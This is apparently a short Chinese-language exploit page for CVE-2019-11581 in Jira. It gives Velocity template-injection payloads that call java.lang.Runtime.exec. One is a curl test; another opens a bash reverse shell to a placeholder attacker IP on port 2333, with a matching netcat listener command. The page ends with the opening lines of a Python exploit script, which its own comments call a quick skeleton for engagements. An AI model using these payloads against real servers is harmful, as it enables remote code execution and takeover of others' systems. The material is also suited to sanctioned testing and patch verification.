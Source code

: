 ![image](../img/c5c3edc4bc7f2b13b82e3fddf5d32af4.png)

linux下可执行：

目标Jira系统可执行的POC

```
$i18n.getClass().forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec('curl http://www.baidu.com').waitFor() 
```

```
$i18n.getClass().forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec('bash -i >& /dev/tcp/攻击者IP/2333 0>&1').waitFor() 
```

攻击者主机执行:nc -lvvp 2333

### poc

> scan

```
#/usr/bin/python
# -*- coding: utf8 -*-

# the program intents to automate the process of exploiting CVE-2019-11581 During our engagments - quick and dirty

# I will probably will add features to make it more easy.

# Ths is some skeleton and probably things will not work on first run

# Importing

import requests

import sys

import argparse

from bs4 import BeautifulSoup

import cmd

```